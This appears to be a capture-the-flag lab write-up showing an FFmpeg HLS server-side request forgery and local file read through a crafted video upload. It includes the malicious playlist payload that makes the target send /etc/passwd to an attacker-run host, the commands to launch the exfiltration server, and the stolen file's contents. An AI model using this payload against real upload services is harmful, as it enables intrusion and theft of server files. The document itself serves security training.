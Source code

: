 ![](images/image13.png)

### FFmpeg SSRF + LFI
It seems that we can upload videos of type avi, mp4, mkv and webm. Doing a bit of research we find that [this hackerone report](https://hackerone.com/reports/1062888) that explains an External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing in TikTok app. The POC is well described so we can combine that with [this exploit](https://github.com/0xcoyote/FFmpeg-HLS-SSRF) to retrieve files from the target.
Create the file `video.avi`:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.4/initial.m3u?filename=/etc/passwd
#EXT-X-ENDLIST
```
When we upload this file, it will make a call to http://10.10.14.4/initial.m3u?filename=/etc/passwd where we will prepare a server to extract the file passed in the argument.

Git clone and run the server:
```bash
$ git clone https://github.com/0xcoyote/FFmpeg-HLS-SSRF
$ cd FFmpeg-HLS-SSRF
$ python3 server.py --external-addr 10.10.14.4 --port 80
```

Submit the `video.avi` file in the web page and wait to the server to extract the file data. Once it is done, the tool will save the output into a file, but without line breaks, so we need to format ourselfs:
```
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nologintss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falseusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:112:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinuser:x:1000:1000:user:/home/user:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falsemongodb:x:113:118::/var/lib/mongodb:/usr/sbin/nologin
```

